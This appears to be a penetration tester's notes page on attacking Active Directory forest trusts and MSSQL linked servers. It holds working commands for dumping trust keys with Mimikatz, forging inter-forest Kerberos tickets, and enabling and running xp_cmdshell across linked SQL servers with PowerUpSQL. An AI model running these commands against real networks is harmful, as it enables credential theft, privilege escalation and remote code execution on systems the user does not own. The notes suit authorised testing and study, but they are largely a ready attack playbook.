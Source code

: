 # AD - Trust Abuse - Cross-Forest Attacks / MSSQL

## Bidirectional Forest Trust

### Description

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

If the receiving DC on the other forest can decrypt the received TGT from Step 5, with the trust key, it assumes everything within the TGT is correct and response with a TGS.\
The trustkey is the NTLM hash of the external domain saved on our DC.\
If we have access to the trustkey

We get in the end the permissions that our DA has been given in the forest domain.

### Tool

**We require the trust key for the inter-forest trust.**

```powershell
Invoke-Mimikatz -command '"lsadump::trust /patch"'
or
Invoke-Mimikatz -command '"lsadump::lsa /patch"'
```

Inter-Forest TGT can be forged with the NTLM hash of the trust key (name of the other forest)

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"Kerberos::golden /user:Administrator /domain dom.local /sid:SID /rc4:rc4ntlm /service:krbtgt /target:targetdom.lol /ticket:C:\myticket.kirbi

.\asktgs.exe C:\myticket.kirbi CIFS/foresttrust.dom.local

.\kirbikator.exe lsa .\CIFS/foresttrust.dom.local.kirbi

Now explicitly shares can be accessed - C$ on forest DC not
```
{% endcode %}

External Trust keys, don't automatically get renewed

Lookup:\
SIDHistory Attack for Parent-Child Domain\
SID Filtering is active for External and Forest Trusts.

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest trusts

### Requirement

* SPN and active SQL Server
* Executing Commands: Target server should have xp\_cmdshell or rpcout (disabled by default)
  * If rpcout is enalbed, you can enable xp\_cmdshell using\
    EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstnaceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

```powershell
Get-SQLServerLink -Instnace hostname_of_mssql_server -verbose
Get-SQLServerLinkCrawl -Instnace hostname_of_mssql_server -verbose

-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver & Windows Auth
```

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
//this runs accross all links
```
{% endcode %}


